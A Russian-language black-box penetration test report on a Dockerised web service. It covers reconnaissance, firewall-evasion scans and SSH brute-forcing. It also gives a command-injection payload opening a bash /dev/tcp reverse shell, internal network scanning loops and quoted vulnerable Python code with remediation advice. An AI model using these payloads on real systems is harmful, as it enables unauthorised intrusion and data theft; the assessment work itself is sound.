# Track Penetration Testing

### Задача

Протестировать сервис на безопасность — провести полноценое тестирование на проникновение методом чёрного ящика. Известен только адрес тестируемого приложения — 92.51.39.106.

# Отчет

## Этап 1. Пассивная разведка

**Использованные инструменты:** Shodan, Netlas, Censys, Google, NVD NIST, Vulners, Snyk.

В ходе проведения пассивной разведки определены базовые сетевые характеристики цели:

- Сетевой адрес (IPv4): 92.51.39.106
- Доменное имя (Reverse DNS): 1427771-cg36175.tw1.ru
- Провайдер инфраструктуры (хостинг): ООО «ТаймВэб» (г. Санкт-Петербург).

С использованием платформ Shodan и Netlas установлено распределение открытых сетевых портов и функционирующих на них служб:

- Порт 22/tcp: Служба удаленного доступа OpenSSH 8.2p1 (сборка Ubuntu-4ubuntu0.13). Конфигурацией службы разрешена аутентификация с использованием паролей (`password`) и открытых ключей (`publickey`).
- Порт 7788/tcp: Веб-сервер TornadoServer версии 5.1.1

Поисковая система Censys в рамках исследуемого сетевого периметра значимых для анализа данных не вернула.

**Google-доркинг:** Не выявлено утечек конфиденциальной информации в открытых источниках.

**Верификация уязвимостей:**

- **Анализ веб-сервера TornadoServer 5.1.1:** Через базу данных NVD NIST для данной версии ПО идентифицировано 8 актуальных записей CVE. Анализ в агрегаторе уязвимостей Vulners показал, что для обнаруженных уязвимостей на момент проведения исследования отсутствуют публично доступные автоматизированные средства эксплуатации. Это существенно снижает вероятность успешной реализации вектора атаки через данный веб-сервер на начальном этапе.  При этом детальный анализ показал, что шесть из восьми уязвимостей приводят исключительно к отказу в обслуживании (DoS), одна — к открытому редиректу (фишинг), и лишь одна (CVE-2025-67724) потенциально опасна (XSS/header injection), но требует нестандартного использования аргумента reason с недоверенными данными. Таким образом, ни одна из CVE не предоставляет возможностей для удалённого выполнения кода, обхода аутентификации или получения доступа к серверу, в связи с чем их дальнейшая проработка в рамках пентеста признана нецелесообразной.
- **Анализ службы OpenSSH 8.2p1-4ubuntu0.13:** Первичный автоматизированный анализ по базе данных NVD NIST указал на наличие множественных уязвимостей, характерных для ветки OpenSSH 8.2. Однако с целью исключения ложноположительных срабатываний, вызванных практикой бэкпортирования исправлений безопасности в дистрибутивах Ubuntu, проведена дополнительная валидация через платформу Snyk. Подтверждено наличие пяти актуальных уязвимостей (CVE-2025-61984, CVE-2025-61985, CVE-2026-3497, CVE-2026-55654, CVE-2026-55655), из которых для двух уязвимостей (CVE-2025-61984, CVE-2026-55654) в открытых источниках опубликованы эксплойты. Данные уязвимости обладают низким уровнем критичности. Согласно метрике CVSS v3.1, их базовый балл составляет 3.6 и 3.7 соответственно. Детальный анализ показал их неприменимость к сценарию внешнего пентеста SSH-сервера: две уязвимости относятся к клиентской части (инъекция через ProxyCommand), две ограничены отказом в обслуживании (GSSAPI) при специфической конфигурации, одна носит локальный характер (X11). Таким образом, данные CVE не предоставляют возможностей для удалённого выполнения кода, обхода аутентификации или повышения привилегий на сервере, и их эксплуатация в рамках тестирования нецелесообразна.


## Этап 2. Активная разведка

**Использованные инструменты:** Masscan, Nmap (NSE), ffuf, nikto.

В ходе первичного высокоскоростного SYN-сканирования сетевого периметра средствами утилиты Nmap зафиксировано наличие средств сетевой защиты (фаервола L3/L4), реализующих политики ограничения интенсивности запросов (`Rate Limiting`) и фильтрации трафика по принципу Drop. Это привело к существенному снижению скорости сканирования и риску искажения результатов.

Для решения данной проблемы применена двухэтапная методика сканирования:

1. Высокоскоростная фиксация портов: Асинхронное сканирование всего диапазона портов (1-65535) утилитой Masscan. Это позволило оперативно обнаружить два ранее скрытых сетевых интерфейса на портах 8050/tcp и 10050/tcp.
2. Низкоинтенсивный целенаправленный анализ: По четырем верифицированным портам запущен детальный анализ версий ПО утилитой nmap (флаг `-sV`) и скриптовый аудит NSE (флаг `-sC`). С целью маскировки трафика и обхода фаервола реализованы следующие техники:
    - Отключение предварительного ICMP-зондирования (`-Pn`);
    - Фрагментация IP-пакетов для обхода сигнатурных фильтров (`-f`);
    - Мимикрия под доверенный трафик путем подмены исходного порта источника на 53/udp (DNS) (флаг `-g 53`);
    - Модификация структуры сетевых пакетов посредством добавления случайной полезной нагрузки фиксированного размера (`--data-length 24`).
3. Дополнительно, с помощью специализированного NSE скрипта `ssh-auth-methods`, на порту 22/tcp подтверждена легитимность метода аутентификации по паролю.



Выявлено 4 открытых порта: 

- 22 - OpenSSH 8.2p1 4ubuntu0.13, подтверждает данные Shodan/Netlas. Дополнительно собраны отпечатки криптографических ключей сервера (RSA, ECDSA, ED25519).
- 7788 - Tornado 5.1.1, подтверждает данные Shodan/Netlas.
- 8050 - Apache 2.4.7, старая версия из дистрибутива Ubuntu 14.04 LTS, что является признаком работы веб-приложения внутри Docker-контейнера, ведь служба SSH сообщает об Ubuntu 20.04. Дополнительно установлено, что куки-сессия `PHPSESSID` передается без флага безопасности `httponly`, что делает её уязвимой для XSS-атак. 
- 10050 - Zabbix Agent, версию установить неудалось.

**Веб-фаззинг:**

С целью обнаружения недокументированных директорий и скрытых интерфейсов управления на портах с веб-службами (7788 и 8050) проведена процедура фаззинга с использованием утилиты ffuf.

Для предотвращения блокировок со стороны СЗИ и исключения перегрузки веб-сервера установлены жесткие ограничения: снижена многопоточность (`-t 5`), а также внедрена динамическая задержка между запросами в диапазоне 100–300 мс (`-p 0.1-0.3`).



**Результаты анализа веб-ресурсов:**

- Интерфейс Tornado (порт 7788): Скрытых директорий не обнаружено. Выявлена статическая веб-страница `/server.html`, содержащая пользовательский интерфейс для отправки ICMP-запросов (утилита ping). Данный функционал представляет критический интерес с точки зрения потенциального внедрения команд ОС.
- Интерфейс Apache (порт 8050): Обнаружен широкий перечень скрытых директорий `/upload/, /users/, /pictures/, /images/, /comments/, /css/, /cart/`, на которых активна небезопасная конфигурация листинга каталогов. При обращении к каталогу `/admin/` система инициирует внутреннюю ошибку интерпретатора, раскрывающую абсолютный путь к исполняемому скрипту: `/app/admin/index.php`. Структура путей (`/app/`) подтверждает ранее выдвинутую гипотезу об использовании Docker-контейнера.

**Автоматизированный анализ веб-уязвимостей:**

Для верификации структуры веб-серверов и поиска базовых архитектурных недостатков проведен автоматизированный аудит безопасности утилитой Nikto.



- Ложноположительное срабатывание: Сигнатурный анализ Nikto указал на потенциальное наличие критической уязвимости CVE-2002-0995 на порту 8050. Проведена ручная верификация путем отправки кастомизированного POST-запроса `curl http://92.51.39.106:8050/admin/login.php -d "action=insert" -d "adminname=test" -d "password=test"`. Запрос вернул стандартную HTML-форму авторизации панелей администратора без признаков аномального поведения или выполнения кода. Наличие уязвимости опровергнуто.
- Отсутствие заголовков безопасности: На обоих веб-ресурсах (порты 8050 и 7788) полностью отсутствуют защитные HTTP-заголовки `X-Frame-Options` (защита от Clickjacking) и `X-Content-Type-Options` (защита от MIME-sniffing), что снижает общий уровень защищенности периметра.
- В HTTP-заголовках ответов веб-сервера на порту 8050 обнаружено явное указание версии интерпретатора - PHP/5.5.9-1ubuntu4.29.

**Верификация уязвимостей веб-сервера Apache 2.4.7 и интерпретатора PHP 5.5.9**: В ходе анализа NVD NIST и агрегатора Vulners идентифицировано множество CVE для Apache и PHP. Для уязвимости CVE-2017-9798 существует публичный эксплойт, однако его применение требует наличия файла `.htaccess` с директивой `Limit`, что в типовых Docker-контейнерах с приложениями на PHP маловероятно. Остальные уязвимости либо не имеют публичных эксплойтов, либо требуют нестандартных конфигураций (включённый прокси, обработка TAR-архивов через `PHAR`) и в лучшем случае приводят к отказу в обслуживании. Дополнительные сведения, полученные в ходе разведки (раскрытие пути `/app/`, листинг каталогов, отсутствие `HttpOnly`), не повышают актуальность найденных CVE, а указывают на иные проблемы конфигурации, не связанные с конкретными уязвимостями. С учётом практики бэкпортирования исправлений в Ubuntu 14.04, отсутствия эксплойтов для критических векторов и специфичности условий эксплуатации, дальнейшая проработка данных CVE в рамках пентеста нецелесообразна. Исключение составляют случаи обнаружения явного использования `.htaccess` с `Limit` или функционала обработки TAR-архивов — на текущем этапе такие условия не подтверждены.


## Этап 3. РЕАЛИЗАЦИЯ ВЕКТОРОВ АТАК И ЭКСПЛУАТАЦИЯ УЯЗВИМОСТЕЙ.

Верификация потенциальных векторов атаки осуществлялась последовательно: от низкоуровневых инфраструктурных сервисов (SSH, Zabbix Agent) к прикладному программному обеспечению (TornadoServer, Apache).

### 3.1. Анализ устойчивости службы OpenSSH (порт 22/tcp) к атакам типа Brute-Force

На этапе активного сканирования установлено, что конфигурация службы OpenSSH разрешает аутентификацию по паролю. Для проверки устойчивости сервиса к атакам методом перебора учетных данных (Brute-Force) задействовано специализированное программное обеспечение Hydra.

В ходе первичных итераций атаки зафиксировано резкое снижение пропускной способности сетевого канала и задержка ответов от целевого хоста. На основе анализа сетевых пакетов выдвинуты следующие гипотезы:

- **Сетевой уровень:** Наличие правил фильтрации трафика типа DROP на межсетевом экране, активирующихся при превышении лимита сессий с одного IP-адреса.
- **Прикладной уровень:** Активация встроенного механизма защиты демона `sshd`, реализуемого директивой `MaxStartups` в конфигурационном файле `sshd_config`. Данный механизм осуществляет принудительный сброс соединений непосредственно перед аутентификацией при достижении порогового значения параллельных попыток входа. Гипотеза подтверждается возможностью успешного интерактивного ввода пароля после временной паузы.

Для верификации гипотез интенсивность атаки снижена до минимальных значений с помощью флагов оптимизации потоков и задержек (`-t 1 -w 15`). Тестирование проводилось по словарю учетных данных высокой степени вероятности (дефолтные конфигурации и слабые пароли).



**Результат тестирования:** Попытки подбора учетных данных завершились отрицательно. Ввиду наличия строгих ограничений на стороне службы, проведение масштабной распределенной атаки Brute-Force с использованием объемных словарей нецелесообразно и неэффективно - низкоприоритетный вектор атаки.

### 3.2. Верификация конфигурации службы мониторинга Zabbix Agent (порт 10050/tcp)

Сетевой агент Zabbix Agent по умолчанию предназначен для сбора системных метрик и в случае некорректной настройки может позволить удаленному пользователю выполнять произвольные команды ОС (RCE). Для первичной проверки доступности и внутренней конфигурации агента осуществлена отправка текстового запроса с использованием утилиты netcat - `echo "system.run[id]" | nc -vn 92.51.39.106 10050`.

Служба вернула статус подключения `open` и текстовый идентификатор (`zabbix-agent`), однако не предоставила ответа на команду `system.run`. Ввиду высокой вероятности сценария, при котором команды выполняются на стороне сервера в фоновом режиме («слепое» выполнение кода, Blind RCE), но их вывод блокируется сетевым уровнем, спроектирована цепочка валидации через внешний веб-интерфейс webhook.site. На целевой хост направлен HTTP GET-запроса через утилиту curl.

В ходе мониторинга удаленной сетевой панели webhook.site фиксации входящих запросов со стороны IP-адреса объекта исследования не произошло, что косвенно свидетельствовало об отсутствии выполнения команды или блокировке исходящего трафика.

Для окончательного подтверждения уровня защищенности сервиса развернута официальная утилита диагностического взаимодействия `zabbix_get`. При попытке запроса базовой версии агента cистема вернула ошибку превышения времени ожидания ответа: `Get value error: read timeout`. Повторный curl c HTTP GET-запросом через `zabbix_get` вызвал штатную системную ошибку ограничения прав доступа: `ZBX_NOTSUPPORTED: Received empty response... Assuming that agent dropped connection because of access permissions`.



**Результат тестирования:** Прямая компрометация Zabbix-agent из внешней сети невозможна ввиду корректно настроенной фильтрации источников (директива Server). Служба настроена в режиме ограничения доступа и обрабатывает запросы исключительно от доверенного сервера. Любые внешние сетевые пакеты со сторонних адресов отсекаются на этапе установления сессии. Дальнейшая детекция версии и поиск уязвимостей данного компонента переносятся на этап эксплуатации веб-приложений (порты 8050, 7788).

### 3.3. Тестирование веб-сервера Tornado (порт 7788/tcp)

В ходе разведки на порту 7788 обнаружен интерфейс для отправки ICMP-запросов (`/server.html`). Ручное тестирование данного функционала, а также последующий анализ файловой системы и исходного кода приложения позволили выявить критические уязвимости и определить вектор полной компрометации контейнера.

#### 3.3.1. Эксплуатация Command Injection и получение обратного шелла

При анализе страницы `/server.html` выдвинуто предположение, что вводимый пользователем адрес хоста передаётся в параметре server и без какой-либо фильтрации подставляется в команду `ping -c 3`. Данная конструкция подвержена прямому внедрению команд ОС.

Для верификации перехвачен POST-запрос в Burp Suite и в параметр server внедрена следующая строка: ```127.0.0.1 ; which bash; which python; which python3; which nc; uname -a```

В ответе сервера, помимо стандартного вывода ping, получены пути к интерпретаторам и информация о ядре.



Факт выполнения произвольных команд подтверждён. Для получения интерактивного доступа сформирован реверс-шелл с использованием публичного туннельного сервиса pinggy.io и следующей полезной нагрузки: ```127.0.0.1; bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'```



После установки соединения получена оболочка с правами root внутри контейнера.

#### 3.3.2. Внутренняя разведка и анализ сетевого окружения

В полученной оболочке выполнены команды, позволившие определить среду выполнения:

- Присутствуют файлы `DockerFile`, `/dockerenv`, а содержимое `/proc/1/cgroup` содержит строки с префиксом docker, что однозначно указывает на работу внутри Docker-контейнера.
- Операционная система внутри контейнера – Debian GNU/Linux 10 (buster).
- Версия ядра хоста – 5.4.0-216-generic (Ubuntu 20.04).
- Переменные окружения содержат PYTHON_VERSION=2.7.18, что подтверждает использование устаревшей версии языка.
- Сетевой интерфейс eth0 имеет IP-адрес 172.17.0.2/16.

С использованием встроенных средств bash (без установки дополнительного ПО) проведено сканирование внутренней сети Docker:

- **Обнаружение активных хостов:** ```for i in $(seq 1 254); do ping -c 1 -W 1 172.17.0.$i | grep "64 bytes" & done```
- **Сканирование открытых портов на обнаруженных узлах:** ```for port in $(seq 1 65535); do (echo > /dev/tcp/172.17.0.1/$port) >/dev/null 2>&1 && echo "Port $port open"; done```

Выявлены три узла:

- 172.17.0.1 – шлюз (хостовая машина), открыты порты 22 (SSH), 7788 (Tornado), 8050 (Apache), 10050 (Zabbix Agent).
- 172.17.0.2 – текущий контейнер Tornado;
- 172.17.0.3 – соседний контейнер, веб-сервер Apache (доступен извне на порту 8050). Открыты порты 80 (HTTP) и 3306 (MySQL), что указывает на работу веб-приложения на PHP с базой данных.







Дополнительные попытки взаимодействия со службами изнутри контейнера показали следующее:

- SSH (порт 22) – при подключении к 172.17.0.1 соединение устанавливается, но аутентификация по паролю отклоняется без запроса учётных данных (после трёх попыток соединение сбрасывается). Вероятно, на хосте настроены дополнительные правила фильтрации (например, `hosts.deny` или `iptables`), ограничивающие доступ из контейнерной сети.
- Zabbix Agent (порт 10050) – отправка команды `system.run[whoami]` через Python-сокет не возвращает результат, хотя порт доступен. Это подтверждает корректную настройку директивы `Server` в конфигурации агента, разрешающую выполнение запросов только с доверенного IP-адреса (сервера Zabbix). Таким образом, эксплуатация агента из внешней сети и из соседних контейнеров невозможна.





#### 3.3.3. Оценка возможности побега из контейнера и эскалации привилегий

Выполнен ряд проверок для выявления потенциальных векторов выхода за пределы контейнера:

- Проверка эффективных возможностей (`cat /proc/self/status | grep CapEff`) показала отсутствие привилегированных флагов (например, `CAP_SYS_ADMIN`), что делает маловероятным использование известных эксплойтов для побега через монтирование или другие привилегированные операции.
- Команды `docker` и `runc` отсутствуют в системе, сокет Docker (`/var/run/docker.sock`) не обнаружен, следовательно, атаки через API Docker или CVE-2019-5736 (runc) неприменимы.
- Попытки записи в хостовую файловую систему через `/proc/1/root` или другие известные методы не увенчались успехом из-за отсутствия необходимых прав.

**Вывод:** контейнер с Tornado не является привилегированным, и на момент тестирования не выявлено возможности для эскалации привилегий или побега на хост-систему. Все выявленные риски ограничены уровнем приложения и доступом к внутренней сети Docker.

#### 3.3.4 Детальный анализ исходного кода приложения Tornado

Исходный код сервера (`server.py`) получен через чтение файла и проанализирован на предмет уязвимостей. В результате выявлены критические недостатки. Дополнительно, в ходе активного сканирования zaproxy зафиксированы архитектурные проблемы конфигурации, не отражённые непосредственно в коде, но существенно снижающие общий уровень безопасности.

**1_Командная инъекция (Command Injection) –** ```ServerHandler.post```

```
server = self.get_argument('server')
process = os.popen('ping -c 3 ' + server)
```

- **CWE-78:** Improper Neutralization of Special Elements used in an OS Command.
- **OWASP A05:2025** – Injection.
- **Критичность:** Критическая (CVSS 9.8) – позволяет выполнить произвольные команды на сервере с правами root, что приводит к полной компрометации контейнера.
- **Рекомендация:** использовать `subprocess.run()` с параметром `shell=False` и передачей аргументов в виде списка; дополнительно проводить валидацию ввода (разрешены только IP-адреса или домены из белого списка).

**2_Обход пути (Path Traversal) -** ```ContentHandler.get```

```
file_name = self.get_argument("file", default="car")
read_file = io.open("read/" + file_name, 'rb')
```

- **CWE-22:** Path Traversal.
- **OWASP A01:2025** – Broken Access Control.
- **Критичность:** Высокая (CVSS 7.5) – позволяет читать произвольные файлы на сервере, включая исходный код и системные файлы, что может привести к раскрытию учётных данных и дальнейшей эскалации.
- **Рекомендация:** нормализовать путь с помощью `os.path.abspath()` и проверять, что он находится внутри разрешённой базовой директории; использовать белый список разрешённых файлов.

**3_SQL-инъекция –** ```UsersHandler.post```

```
cur.execute("SELECT * FROM Users WHERE User ='" + uname + "' AND Password ='" + pwd + "'")
```

- **CWE-89:** SQL Injection.
- **OWASP A05:2025** - Injection
- **Критичность:** Критическая (CVSS 9.8) – позволяет обойти аутентификацию, изменить или извлечь данные из базы, а в некоторых конфигурациях – выполнить команды на сервере (например, через LOAD_FILE).
- **Рекомендация:** использовать параметризованные запросы (встроенный механизм sqlite3 позволяет передавать параметры через ?).

**4_Неограниченная загрузка файлов –** ```UploadHandler.post```

```
output_file = io.open("/tmp/" + final_filename, 'wb')
output_file.write(file1['body'])
```

- **CWE-434:** Unrestricted Upload of File with Dangerous Type.
- **OWASP A01:2025** – Broken Access Control.
- **Критичность:** Высокая (CVSS 8.1) – злоумышленник может загрузить веб-шелл или вредоносный исполняемый файл. Хотя файлы сохраняются в `/tmp` и не обслуживаются веб-сервером напрямую, возможность комбинированной атаки (например, через Path Traversal) делает риск существенным.
- **Рекомендация:** проверять MIME-тип и расширение по белому списку; сканировать содержимое на вредоносный код; сохранять файлы за пределами веб-корня.

**5_Отражённая XSS –** ```SearchHandler.get```

```
self.render("search.html", query=query, link=query)
```

При этом отключён заголовок X-XSS-Protection: 0, что делает атаку более опасной.

- **CWE-79:** Cross-site Scripting.
- **OWASP A05:2025** – Injection.
- **Критичность:** Средняя (CVSS 6.1) – требует взаимодействия с пользователем, но может привести к краже сессионных cookie, перенаправлению или дефейсу страниц.
- **Рекомендация:** использовать автоматическое экранирование переменных в шаблонах; не отключать встроенные защиты браузера; применять `tornado.escape.xhtml_escape()` для ручного экранирования.

**6_Включённый режим отладки в продакшене**

```
settings = { "debug": True }
```

- **CWE-489:** Active Debug Code.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Средняя (CVSS 5.3) – приводит к утечке стектрейсов, локальных переменных и путей к файлам при возникновении ошибок, что упрощает злоумышленнику сбор информации о системе.
- **Рекомендация:** отключить debug в боевом окружении; использовать переменную окружения для управления режимом.

**7_Использование устаревшего Python 2.7**

Базовый образ python:2.7 (EOL с января 2020 г.) содержит множество неисправленных уязвимостей в стандартной библиотеке и зависимостях.

- **CWE-1104:** Use of Unmaintained Third Party Components.
- **OWASP A03:2025** – Software Supply Chain Failures.
- **Критичность:** Высокая (CVSS 7.5) – отсутствие обновлений безопасности делает систему уязвимой для известных атак, для которых могут существовать эксплойты.
- **Рекомендация:** мигрировать на актуальную версию Python 3.8+ и регулярно обновлять образы.

**8_Запуск от root внутри контейнера**

Отсутствие директивы USER в Dockerfile приводит к выполнению приложения с привилегиями суперпользователя.

- **CWE-250:** Execution with Unnecessary Privileges.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Средняя (CVSS 6.0) – при наличии других уязвимостей повышает вероятность получения полного контроля над хостом.
- **Рекомендация:** создать непривилегированного пользователя и переключиться на него перед запуском.

**9_Наличие каталога `.git` в сборке**

В Dockerfile не выполняется удаление `.git` после копирования кода, что приводит к утечке метаданных репозитория.

- **CWE-200:** Exposure of Sensitive Information.
- **OWASP A02:2025** – Security Misconfiguration.
- **Критичность:** Средняя (CVSS 5.3) – позволяет злоумышленнику изучить историю коммитов, потенциально извлечь секреты и получить информацию о структуре приложения.
- **Рекомендация:** добавить в Dockerfile ```RUN rm -rf .git``` или использовать ```.dockerignore``` для исключения каталога.

**10_Хранение паролей в открытом виде в коде и БД**

В функции `create_db()` пароли пользователей вставляются в таблицу как plaintext. Кроме того, в ходе разведки из файла `test.db` извлечены учётные данные.

- **CWE-312:** Cleartext Storage of Sensitive Information.
- **OWASP A04:2025** – Cryptographic Failures.
- **Критичность:** Высокая (CVSS 7.5) – в случае компрометации базы данных все учётные данные становятся известны злоумышленнику, что позволяет получить доступ к системе.
- **Рекомендация:** использовать хеширование паролей с солью (например, bcrypt), а также вынести секреты в переменные окружения.

**11_Отсутствие защитных HTTP-заголовков**

На этапе активного автоматического сканирования подтверждено отсутствие заголовков `X-Frame-Options`, `X-Content-Type-Options`, `Content-Security-Policy`, `Strict-Transport-Security`, а также некорректная настройка флагов кук (`HttpOnly`, `Secure`, `SameSite`).

- **CWE-693:** Protection Mechanism Failure.
- **OWASP A02:2025** – Security Misconfiguration.
